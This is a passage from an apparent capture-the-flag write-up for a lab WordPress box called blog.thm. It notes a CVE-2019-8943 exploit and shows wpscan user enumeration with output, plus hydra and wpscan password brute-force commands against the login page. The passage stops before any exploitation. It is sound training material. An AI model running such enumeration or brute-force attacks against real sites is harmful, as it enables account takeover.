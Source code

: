 Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!
Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...
In order to get the blog to work with AWS, you'll need to add blog.thm to your /etc/hosts file.
I found a wordpress blog : http://blog.thm/wp-login.php and also the version is 5.0
it's vulnerable to 	`CVE-2019-8943`
found : https://github.com/v0lck3r/CVE-2019-8943 and : https://www.exploit-db.com/exploits/49512
But for this exploit i need to be authenticated
on author i found : http://blog.thm/author/kwheel/ kwheel.
Here i will first try the exploit, or i can try to bruteforce this username password
I will try to use wpscan to find more users
```
└─# wpscan --url http://blog.thm/ --enumerate u
[i] User(s) Identified:

[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Login Error Messages (Aggressive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Karen Wheeler
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

```
found 4 user, now i will try to bruteforce them
```
└─# hydra -L users.txt -P /usr/share/wordlists/rockyou.txt blog.thm -V http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:S=302" 
```
Very slow i used also this:
```
wpscan --url http://blog.thm -P /usr/share/wordlists/rockyou.txt -U username.txt -t 75
```
and Burp Pro